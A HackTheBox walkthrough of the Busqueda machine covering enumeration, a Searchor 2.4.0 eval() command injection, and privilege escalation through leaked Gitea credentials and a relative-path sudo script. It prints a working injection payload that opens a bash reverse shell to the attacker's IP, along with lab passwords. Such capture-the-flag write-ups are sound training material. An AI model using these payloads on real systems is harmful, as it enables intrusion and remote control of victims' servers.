+++
title = "HackTheBox-Busqueda machine walkthrough"
date = 2025-05-11
draft = false
tags = ["HackTheBox", "HTB", "Walkthrough", "Web Exploitation", "Command Injection"]
categories = ["Cybersecurity", "Penetration Testing", "CTF"]
description = "A detailed walkthrough of the Busqueda machine from HackTheBox, covering enumeration, vulnerability discovery, exploitation, and privilege escalation."
summary = "A step-by-step guide to solve the Busqueda machine from HackTheBox"
+++

# HackTheBox-Busqueda Machine Walkthrough

This is a walkthrough of the HackTheBox machine Busqueda. The machine is a retired machine on HackTheBox and provides great practice for beginners focusing on web application vulnerabilities and privilege escalation techniques.

## Initial Enumeration

First, we need to enumerate the machine. We'll use Nmap to scan the machine for open ports and services:

```bash
nmap -sV -sT -sC -T4 10.10.11.208
```


The scan results show that the machine has two open ports:
- Port 22: Running OpenSSH 8.9p1
- Port 80: Running Apache httpd 2.4.52

## Web Enumeration

To access the web server, we need to add the IP address of the machine to our hosts file:

```bash
echo "10.10.11.208 searcher.htb" | sudo tee -a /etc/hosts
```


I also checked for hidden or uncovered pages on the website using feroxbuster, but didn't find anything significant:


Now we can access the web server by going to http://searcher.htb in our web browser:


## Vulnerability Identification

After examining the web application, I discovered it was running "Searchor" version 2.4.0. Researching this software on GitHub led me to the [Searchor repository](https://github.com/ArjunSharda/Searchor).



Looking at the release notes for Searchor 2.4.2, I found that it patched a vulnerability present in earlier versions, including 2.4.0:



Examining the patch details revealed a **command injection vulnerability** in the search functionality due to the use of an `eval()` statement on unsanitized user input:



### Understanding the `eval()` Vulnerability

The vulnerability exists because the application doesn't properly validate user inputs in the search parameters. A remote attacker can supply a specially crafted query to pass arbitrary code to an `eval()` statement, resulting in code execution.

To confirm this vulnerability, I downloaded and analyzed Searchor 2.4.0 locally:

```bash
wget https://github.com/ArjunSharda/Searchor/archive/refs/tags/v2.4.0.zip
unzip v2.4.0.zip
```

Examining the code in `main.py`:

```bash
nano Searchor-2.4.0/src/searchor/main.py
```



The `search()` function accepts four parameters, and we have control over two of them: `engine` and `query`. Both parameters are passed directly to an `eval()` statement without proper sanitization.

After installing Searchor 2.4.0 locally:

```bash
pip install searchor==2.4.0
```


I verified the vulnerability using a test payload:

```bash
searchor search Google "')+ str(__import__('os').system('id'))#"
```


The successful execution of the injected `id` command confirmed that this vulnerability would work on the remote host running the same version.

## Exploitation

To gain initial access, I set up a Netcat listener on port 80:

```bash
nc -nlvp 80
```

If you have a firewall like UFW enabled, you'll need to open the port:

```bash
sudo ufw allow 80
```

I then crafted a command injection payload to obtain a reverse shell:



```
'+ __import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.5/80 0>&1"').read() +'
```

### Payload Explanation:

```python
__import__('os')                 # Dynamically load Python's os module
   .popen( … ).read()            # Open a subprocess, read its stdout
```

Inside popen():
```bash
bash -c "bash -i >& /dev/tcp/10.10.16.5/80 0>&1"
```

- `bash -c`: Tells bash to run the following command string
- `bash -i`: Starts an interactive shell
- `>& /dev/tcp/10.10.16.5/80 0>&1`: Redirects stdout and stderr to your listener at 10.10.16.5:80, and stdin from the same socket

The injection was successful, giving me a reverse shell on the target:



I located the user flag in `/home/svc/user.txt`:



## Privilege Escalation

During post-exploitation enumeration, I found credentials in the `.gitconfig` file:



Further investigation revealed more credentials and a subdomain `gitea.searcher.htb` in the `/var/www/app/.git/config` file:



Using the discovered password `jh1usoih2bkjaspwe92`, I established an SSH connection as user `svc`:

```bash
ssh svc@10.10.11.208
```



Next, I added the discovered subdomain to my hosts file:

```bash
echo "10.10.11.208 gitea.searcher.htb" | sudo tee -a /etc/hosts
```

Visiting `gitea.searcher.htb` revealed a Gitea instance:


In the "Explorer" section, I found two users: `cody` and `administrator`:



I logged in as `cody` using the previously discovered password:





To progress further, I checked what commands user `svc` could run with `sudo` permissions:

```bash
sudo -l
```




The user `svc` could run the `/opt/scripts/system-checkup.py` script with sudo privileges, but only with execution rights:


Running the script to understand its functionality:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```



The script allowed checking Docker containers:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```


Using the `docker-inspect` option to examine the containers:

After studying the [docker-inspect](https://docs.docker.com/reference/cli/docker/inspect/) documentation, I found that the `{{json .}}` format template renders all container information in JSON format. This template is perfect for the `docker-inspect` argument of the script:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
```



I discovered the administrator password `yuiu1hoiu4i5ho1uh` and used it to login to Gitea:




With access to the private `scripts` repository, I could examine the system-checkup.py script:



The script revealed a key vulnerability: when executing the `full-checkup` argument, it runs `./full-checkup.sh` using a relative path instead of an absolute path.



This allowed me to create my own malicious `full-checkup.sh` script in a directory of my choice:



After making it executable:

```bash
chmod +x /tmp/full-checkup.sh
```

I set up a Netcat listener on port 8060:

```bash
nc -nvlp 8060
```

And if necessary, allowed the port through my firewall:

```bash
sudo ufw allow 8060
```



Executing the script from the `/tmp` directory granted me a root shell, allowing me to retrieve the root flag:



## Conclusion

The Busqueda machine demonstrated several important security concepts:
1. The dangers of using `eval()` with unsanitized user input
2. The importance of proper credential management
3. The risks of using relative paths in privileged scripts

This machine provided valuable lessons in web application security, command injection vulnerabilities, and privilege escalation techniques.

---
